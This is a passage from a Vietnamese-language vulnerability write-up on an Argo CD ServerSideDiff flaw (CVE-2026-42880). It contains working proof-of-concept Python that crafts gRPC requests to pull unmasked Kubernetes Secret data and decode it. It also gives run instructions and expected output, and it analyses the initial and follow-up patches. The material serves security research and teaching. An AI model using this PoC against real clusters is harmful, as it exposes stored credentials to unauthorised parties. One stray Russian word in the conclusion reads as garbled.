data = rest_get(conn, f"/api/v1/applications/{urllib.parse.quote(APP_NAME)}/managed-resources", TOKEN)

secret_live = None
for item in data.get("items", []):
    if item.get("kind") == "Secret" and item.get("name") == SECRET_NAME and item.get("namespace") == SECRET_NAMESPACE:
        secret_live = item.get("liveState")
        break

if not secret_live:
    raise RuntimeError("could not find masked liveState for test-secret")

target = {
    "apiVersion": "v1",
    "kind": "Secret",
    "metadata": {
        "name": SECRET_NAME,
        "namespace": SECRET_NAMESPACE,
    },
    "type": "Opaque",
}

lr = b""
lr += encode_str(2, "Secret")
lr += encode_str(3, SECRET_NAMESPACE)
lr += encode_str(4, SECRET_NAME)
lr += encode_str(6, secret_live)
lr += encode_bool(12, True)

query = b""
query += encode_str(1, APP_NAME)
query += encode_str(3, PROJECT)
query += encode_bytes(4, lr)
query += encode_str(5, json.dumps(target))

conn = make_conn()
resp_data = grpc_post(conn, TOKEN, query)
resp_fields = decode_fields(resp_data)

found = False
for item_bytes in resp_fields.get(1, []):
    ifields = decode_fields(item_bytes)
    for raw in ifields.get(5, []):  # field 5 = TargetState
        obj = json.loads(raw)
        if obj.get("kind") != "Secret":
            continue
        found = True
        print(json.dumps(obj, indent=2))
        data_map = obj.get("data", {})
        if data_map:
            print("\n[+] Secret data keys returned in TargetState:")
            for k, v in data_map.items():
                print(f"  {k}: {v}")
                try:
                    print(f"     decoded: {base64.b64decode(v).decode(errors='replace')}")
                except Exception:
                    pass

if not found:
    print("[-] No Secret object found in TargetState")
```

Chạy PoC:

```
python3 poc.py "$ARGOCD_AUTH_TOKEN"
```

Nếu lab đúng điều kiện, trên `v3.3.8` bạn kỳ vọng sẽ thấy `TargetState` chứa `data.username` hoặc field tương tự ở dạng base64 thật, chứ không phải chỉ toàn `+++++`.


### Kết quả

Khai thác thành công không được đánh giá dựa trên việc command có chạy xong hay không, cũng không dựa trên việc CLI có hiển thị dấu `+++++` hay không.

Điều cần quan sát là nội dung của `TargetState` trong response trả về từ API `ServerSideDiff`.

Nếu lab được dựng đúng điều kiện, PoC sẽ in ra một đối tượng `Secret` có chứa dữ liệu thật trong trường `.data`, ví dụ:

```
{
  "data": {
    "password": "dGVzdC1wYXNzd29yZA==",
    "username": "dGVzdC11c2VybmFtZQ=="
  }
}
```

Khi giải mã Base64:

```
password -> test-password
username -> test-username
```

Nếu chỉ thấy các giá trị đã bị che hoặc không xuất hiện trường `.data`, hãy kiểm tra lại các điều kiện trước đó:

- `test-manager` đã xuất hiện trong `managedFields`
- annotation `ServerSideDiff=true,IncludeMutationWebhook=true` đã được áp dụng
- application đang quản lý đúng `test-secret`
- đang sử dụng phiên bản Argo CD vulnerable

Ngược lại, nếu `TargetState` chứa dữ liệu Base64 thật của Secret, việc tái hiện CVE đã thành công.

Nói ngắn gọn: bằng chứng của lỗ hổng không phải là output của CLI, mà là việc `ServerSideDiff` trả về `TargetState` chứa dữ liệu Secret chưa được masking.

### Follow-up: bản vá đầu chưa triệt để

Một chi tiết khá đáng chú ý là câu chuyện không dừng lại ở advisory đầu tiên. Sau khi Argo CD phát hành bản vá ban đầu cho lỗi `ServerSideDiff`, upstream tiếp tục công bố thêm một advisory follow-up là `GHSA-rg3g-4rw9-gqrp`, tương ứng `CVE-2026-45737`.

Điểm cốt lõi của advisory mới là: bản vá trước đó chủ yếu che `Secret data` ở mức top-level trong response của `ServerSideDiff`, nhưng vẫn chưa xử lý triệt để dữ liệu nhạy cảm nằm trong annotation `kubectl.kubernetes.io/last-applied-configuration`. Nếu `Secret` từng được tạo hoặc cập nhật bằng client-side apply, annotation này có thể vẫn mang theo `data`, `stringData` hoặc các giá trị nhạy cảm khác, và chúng vẫn có thể xuất hiện trong UI/CLI diff.

Ở vòng vá follow-up, upstream không sửa ở tầng `application.go` nữa mà đẩy việc masking xuống thẳng `gitops-engine/pkg/diff/diff.go`. Cụ thể, trước khi marshal kết quả `server-side diff`, code mới kiểm tra resource có phải `core/v1 Secret` hay không, rồi gọi `HideSecretData(predictedLive, live, nil)` để làm sạch dữ liệu nhạy cảm ngay trong diff engine. Đây là điểm khác biệt quan trọng so với vòng vá trước: họ vá ngay tại nơi dữ liệu diff được tạo ra, thay vì chỉ trông chờ vào response layer.


Điều này làm cho case study ban đầu trở nên thú vị hơn rất nhiều. Nó cho thấy vấn đề không chỉ nằm ở một dòng code quên gọi masking, mà nằm ở cách toàn bộ luồng diff xử lý và làm sạch dữ liệu nhạy cảm. Nói cách khác, đây là một ví dụ khá điển hình cho tình huống “fix đúng hướng nhưng chưa đủ sâu”, và chỉ đến vòng vá tiếp theo thì boundary mới được siết lại chặt hơn.

##  Kết luận

`CVE-2026-42880` đáng học không chỉ vì nó làm lộ `Secret`, mà vì nó cho thấy một hệ thống nhìn bề ngoài có vẻ đã được bảo vệ khá tốt vẫn có thể vỡ ở đúng một nhánh xử lý đặc biệt. Trong Argo CD, nhiều endpoint quen thuộc vẫn mask dữ liệu nhạy cảm đúng như kỳ vọng. Chính điều đó làm lỗ hổng này đáng phân tích hơn: nó không đến từ việc cơ chế bảo vệ hoàn toàn отсутств, mà đến từ việc `ServerSideDiff` đứng ngoài boundary bảo vệ chung.

Khi lần theo luồng thực thi, có thể thấy đây không phải lỗi của một dòng code đơn lẻ. `ServerSideDiff` trả raw `PredictedLive` và `NormalizedLive`, trong khi lớp phòng vệ phụ `removeWebhookMutation()` chỉ vô tình làm kết quả trông an toàn trong một số tình huống. Khi `IncludeMutationWebhook=true` tắt lớp phòng vệ đó, dữ liệu thật từ SSA dry-run có cơ hội đi xuyên qua toàn bộ luồng diff và xuất hiện trong phản hồi gửi về client.

Điểm hay của bản vá không chỉ nằm ở việc che lại dữ liệu đầu ra, mà còn ở chỗ upstream siết thêm identity validation và kiểm tra object membership. Nói cách khác, bản vá không chỉ xử lý triệu chứng “lộ Secret”, mà còn sửa lại trust boundary của chính endpoint này. Và đó mới là bài học lớn nhất của CVE này.

